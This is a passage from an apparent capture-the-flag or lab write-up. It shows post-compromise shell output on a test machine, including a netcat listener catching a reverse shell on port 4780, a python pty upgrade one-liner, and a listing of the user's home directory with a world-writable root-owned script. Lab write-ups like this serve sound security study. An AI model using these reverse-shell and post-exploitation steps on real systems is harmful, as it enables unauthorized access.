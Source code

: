 ```
firefox.sh
Music
Pictures
Public
Templates
Videos
pwd
/home/peter
cd .ssh
ls
Desktop
Documents
Downloads
firefox.sh
Music
Pictures
Public
Templates
Videos
ls -l .ssh
total 0

## Persistent shell
 
At this point, I fireed a netcat shell back to me on port 4780:

```
root@kali:~/.ssh# nc -lvp 4780
listening on [any] 4780 ...
192.168.110.151: inverse host lookup failed: Unknown host
connect to [192.168.110.128] from (UNKNOWN) [192.168.110.151] 35443
python -c 'import pty; pty.spawn("/bin/sh")'

$ ls -la
ls -la
total 108
drwxr-xr-x 19 peter peter 4096 Jun 19 16:42 .
drwxr-xr-x  5 root  root  4096 Jun 19 16:42 ..
-rw-------  1 peter peter  113 Jun 21 10:49 .bash_history
-rw-r--r--  1 peter peter  220 Jun 14 15:55 .bash_logout
-rw-r--r--  1 peter peter 3515 Jun 14 15:55 .bashrc
drwx------  7 peter peter 4096 Jun 19 16:42 .cache
drwx------ 12 peter peter 4096 Jun 19 16:42 .config
drwx------  3 peter peter 4096 Jun 19 16:42 .dbus
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Desktop
-rw-------  1 peter peter   26 Jun 18 18:57 .dmrc
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Documents
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Downloads
-rwxrwxrwx  1 root  root   118 Jun 19 16:10 firefox.sh
drwx------  3 peter peter 4096 Jun 19 16:42 .gconf
drwx------  2 peter peter 4096 Jun 19 16:42 .gnupg
-rw-------  1 peter peter  636 Jun 14 15:59 .ICEauthority
drwx------  4 peter peter 4096 Jun 19 16:42 .kde
drwx------  3 peter peter 4096 Jun 19 16:42 .local
drwx------  4 peter peter 4096 Jun 19 16:42 .mozilla
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Music
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Pictures
-rw-r--r--  1 peter peter  675 Jun 14 15:55 .profile
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Public
-rw-r--r--  1 peter peter   66 Jun 15 11:47 .selected_editor
drwx------  2 peter peter 4096 Jun 25 11:29 .ssh
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Templates
drwxr-xr-x  2 peter peter 4096 Jun 19 16:42 Videos